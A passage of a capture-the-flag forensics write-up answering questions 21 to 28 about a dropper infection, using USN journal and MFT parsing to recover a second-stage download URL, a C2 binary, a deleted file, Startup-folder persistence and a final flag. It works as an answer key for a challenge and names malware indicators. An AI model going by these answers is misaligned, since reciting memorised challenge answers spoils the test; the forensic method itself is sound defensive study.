



## Question #21

> After that, the binary dropped the second dropper binary. What is the remote URL that downloaded the second binary dropper?
>
> Format: URL

Again, this can be acquired by reversing `KeepClean.exe`. The answer is `http://startcleaner.cln/rev.exe`.

## Question #22

> Where was the second dropper binary dropped on the victim's machine?
>
> Format: X:\path\to\file.exe

Again, this can be acquired by reversing `KeepClean.exe`. The answer is `C:\Windows\SystemTemp\Local\_071daf23c.exe`.

## Question #23

> When was the second dropper binary first executed on the victim's machine?
>
> Format: YYYY-MM-DD HH:MM:SS UTC

Using the same method to get the timestamp of `KeepClean.exe`, you can use Autopsy or analyze the Prefetch file of `_071daf23c.exe`. We got `2026-09-26 16:16:30 UTC`.



## Question #24

> What IP address and port did the second dropper binary try to connect to?
>
> Format: IP:PORT

Reverse `_071daf23c.exe`.

## Question #25

> The attacker successfully connected to the victim's machine and deleted one file. What is the full path of that deleted file, and when did it happen?
>
> Format: FULL_PATH, YYYY-MM-DD HH:MM:SS UTC

This can be found by parsing with [USN Parser](https://www.usnparser.com/en). `$UsnJrnl` can be exported from `root/$Extend/$UsnJrnl`. Filter it to Deletions and set the time range from the execution timestamp of `_071daf23c.exe`. Scroll a little bit, and the right answer is `C:\Users\joe\Documents\Job\Ansible-Project\READMETOCLEAN.md, 2026-09-26 16:17:52 UTC`.



## Question #26

> After the attacker deleted a file, what is the full path of the binary that the attacker used to maintain persistence on the victim's machine?
>
> Format: FULL_PATH

I got this by parsing `$MFT` and setting the time range with [MFT Parser](https://www.mftparser.com/en#parser&from=2026-09-26T16:17:00Z). The timestamp was not precisely the same as the deleted file from the previous question because I did not find it in that timestamp range. But when I changed the seconds to `00`, the first timestamp hit was `Users/joe/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/_071daf23c.exe`. This can be the correct answer because `_071daf23c.exe` is a C2, and the Startup directory is used for persistence.



## Question #27

> The victim left a note in his favourite text editor. What is the victim's email address that should be contacted if the important file is recovered successfully?
>
> Format: email@example.com

Check `%AppData%\Roaming\Sublime Text\Local\Session.sublime_session`, and you can get the victim's email.



## Question #28

> How much money was the victim willing to transfer if the important file was recovered successfully?
>
> Format: integer

From the email hit, the full message can be read, and the victim was willing to transfer `$500`.

```text
==================================================
CONGRATULATIONS!!
Flag: TryHards{wHo_57ilL_9o7_phI5h3d_In_7hI5_8I9_2026?_83_c4R3FUll_0n_wh47_y0U_cL1CKed_ch@7!!}
==================================================
```
